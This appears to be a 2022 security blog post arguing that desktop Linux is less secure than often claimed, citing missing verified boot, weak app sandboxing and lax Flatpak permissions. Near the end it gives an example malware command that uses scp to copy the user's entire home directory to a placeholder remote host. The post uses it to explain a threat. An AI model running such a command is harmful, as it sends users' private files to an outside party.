 ```yaml
---
title: "Linux Insecurities"
date: 2022-07-18
lastmod: 2022-08-16
tags: ['Operating Systems', 'Linux', 'Security',]
author: Tommy
---
```


There is a common misconception among privacy communities that Linux is one of the more secure operating systems, either because it is open-source or because it is widely used in the cloud. However, this is a far cry from reality.

There is already a very in-depth technical blog explaining the various security weaknesses of Linux by Madaidan, [Whonix](https://www.whonix.org/)'s Security Researcher. This page will attempt to address some of the questions commonly raised in reaction to his blog post. You can find the original article [here](https://madaidans-insecurities.github.io/linux.html).

![Madaidan's Linux Insecurities](/images/madaidan-insecurities-linux.png)

## Why is Linux used on servers if it is so insecure?

On servers, while most of the problems referenced in the article still exist, they are somewhat less problematic. 

On Desktop Linux, GUI applications run under your user, and thus have access to all of your files in `/home`. This is in contrast to how system daemons typically run on servers, where they have their own group and user. For example, NGINX will run under `nginx:nginx` on Red Hat distributions, or `www-data:www-data` on Debian based ones. Discretionary Access Control does help with filesystem access control for server processes, but is useless for desktop applications.

Another thing to keep in mind is that Mandatory Access Control is also somewhat effective on servers, as commonly run system daemons are confined. In contrast, on desktop, there is virtually no AppArmor profile to confine even regularly used apps like Chrome or Firefox, let alone less common ones. On SELinux systems, these apps run in the UNCONFINED SELinux domain.

Linux servers are lighter than Desktop Linux systems by orders of magnitude, without hundreds of packages and dozens of system daemons running like X11, audio servers, printing stack, and so on. Thus, the attack surface is much smaller.

## Linux Hardening Myths

There is a common claim in response to Madaidan that Linux is only insecure by default, and that an experienced user can make it the most secure operating system out there, surpassing the likes of macOS or ChromeOS. Unfortunately, this is wishful thinking. There is no amount of hardening that one can reasonably apply as a user to fix up the inherent issues with Linux.

### Lack of verified boot

macOS, ChromeOS, and Android have a clear distinction between the system and user installed application. In over simplified terms, the system volume is signed by the OS vendor, and the firmware and boot loader works to make sure that said volume has the authorized signature. The operating system itself is immutable, and nothing the user does will need or be allowed to tamper with the system volume.

On Linux, there is no such clear distinction between the system and user installed applications. Linux distributions are a bunch of packages put together to make a system that works, and thus every package is treated as part of said system. The end result is that binaries, regardless of whether they are vital for the system to function or just an extra application, are thrown into the same directories as each other (namely `/usr/bin` and `/usr/local/bin`). This makes it impossible for an end user to setup a verification mechanism to verify the integrity of "the system", as said "system" is not clearly defined in the first place.

### Lack of application sandboxing

Operating systems like Android and ChromeOS have full system mandatory access control, every process from the init process is strictly confined. Regardless of which application you install or how you install them, they have to play by the rules of an untrusted SELinux domain and are only able to utilize unprivileged APIs.

Even on macOS, where the application sandbox is opt-in for developers, there is still a permission control system (TCC) for unprivileged application. Apps run by the user do not have unrestricted access to their microphone, webcam, keystrokes, sensitive documents, and so on.

On Linux, it is quite the opposite. Out of the box, most systems only have a few system daemons confined. Some Linux distributions don't even have a Mandatory Access Control system at all. Applications are designed in an environment where they expect to be able to do whatever they want, and the app sandboxes/mandatory access control system are merely an afterthought trying to restrict an app to only access what it expects to be accessible. 

This is reflected in the under utilization of the [Portals API](https://docs.flatpak.org/en/latest/portal-api-reference.html) as an example. Portals is designed to be an API where apps have to prompt the user to access their files (through the File Manager) or their microphone and camera. Unfortunately, the vast majority of apps are not designed with this in mind, and expect direct access to the filesystem, pulseaudio socket or the entire `/dev`. As a result, Flatpak maintainers often opt to have extremely lax permissions to the point where they have to grant `filesystem=home`, `filesystem=host`, `socket=pulseaudio` or `devices=all`, otherwise apps will break and give users a bad experience.

To make matters worse, some system daemons are not designed with permission control in mind at all. For example, PulseAudio does not have any concept of audio in or out permission. Thus, the user is often left with only the choice of granting an app access to the socket or not. If they want to block microphone access, they have to block access to the socket, and thus break audio playback in the process. If they do want an audio playback, then they have to allow access to the PulseAudio socket, which in turns give an app unrestricted access to record them at any moment.

The only way to systematically fix this problem is to design a whole new system from scratch with a permission model like that of Android in mind. And even when that happens, it will take substantial work to get developers to develop their apps for said system.

## But Linux is open source!

Something being open source does not imply that it is inherently private, secure, or trustworthy. I recommend reading the [FLOSS Security](/knowledge/floss-security) post by [Rohan Kumar](https://seirdy.one/posts/2022/02/02/floss-security/).

## But there is less malware on Linux!

**Security by irrelevance does not work**. Just because there are fewer users of your favorite operating system does not make it any safer. 

Ask yourself this: Would you ditch Windows for ReactOS considering that it is a lot less popular and is less targeted? Likewise, would you ditch Linux desktop when it becomes the mainstream solution for the BSDs or some niche operating systems just because they are less popular?

Malware for Linux does exist, and it is not hard to make. It can be something as trivial as a shell script or binary executing `scp -r ~/ malware@xx.xx.xx.xx:/data`. Due to the lack of application sandboxing or an application permission model, your computer can be compromised the moment you execute a malicious binary, shell script, or install script with or without root and with or without an exploit. This is, of course, not to discount the fact that many exploits do exist on Linux just like on any other operating systems as well.
